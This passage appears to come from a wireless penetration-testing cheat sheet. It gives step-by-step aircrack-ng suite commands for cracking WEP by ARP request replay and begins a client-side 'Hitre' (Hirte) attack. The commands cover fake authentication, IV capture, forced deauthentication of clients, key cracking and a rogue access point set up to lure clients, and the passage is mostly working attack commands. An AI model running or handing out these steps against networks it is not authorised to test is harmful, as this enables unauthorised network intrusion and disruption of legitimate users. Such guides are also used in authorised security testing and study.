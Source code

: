 ### ARP Request Replay Attack

If target WiFi network is not busy, it can take days to capture enough IVs to crack the WEP authentication.

Do the fake authentication to a WiFi network with non-existing MAC address and keep the connection alive:

```fundamental
aireplay-ng --fakeauth 6000 -o 1 -q 10 wlan1 -e essid -a FF:FF:FF:FF:FF:FF -h FF:FF:FF:FF:FF:FF
```

If MAC address filtering is active, do the fake authentication to a WiFi network with an existing MAC address:

```fundamental
aireplay-ng --fakeauth 0 wlan1 -e essid -a FF:FF:FF:FF:FF:FF -h FF:FF:FF:FF:FF:FF
```

To monitor the number of captured IVs, run `airodump-ng` against a WiFi network and watch the `#Data` column (try to capture around 100k IVs):

```fundamental
airodump-ng wlan0mon --channel 8 -w airodump_essid_results --essid essid --bssid FF:FF:FF:FF:FF:FF
```

Start the standard ARP request replaying against a WiFi network:

```fundamental
aireplay-ng --arpreplay wlan1 -e essid -a FF:FF:FF:FF:FF:FF -h FF:FF:FF:FF:FF:FF
```

\[Optional\] Deauthenticate clients from a WiFi network:

```fundamental
aireplay-ng --deauth 10 wlan1 -e essid -a FF:FF:FF:FF:FF:FF
```

Crack the WEP authentication:

```fundamental
aircrack-ng -e essid -b FF:FF:FF:FF:FF:FF replay_arp*.cap
```

### Hitre Attack

This attack targets clients, not wireless access points. You must know the SSIDs of your target's WiFi networks.

\[Optional\] Set up a fake WEP WiFi network if the real one is not present:

```fundamental
airbase-ng -W 1 -N wlan0mon -c 8 --essid essid -a FF:FF:FF:FF:FF:FF
```

If needed, turn up the power of a wireless network interface to missassociate clients to the fake WiFi network, see how in [1. Configuration](#1-configuration).

Monitor the real/fake WiFi network to capture handshakes/requests:

```fundamental
airodump-ng wlan0mon --channel 8 -w airodump_essid_results --essid essid --bssid FF:FF:FF:FF:FF:FF
```
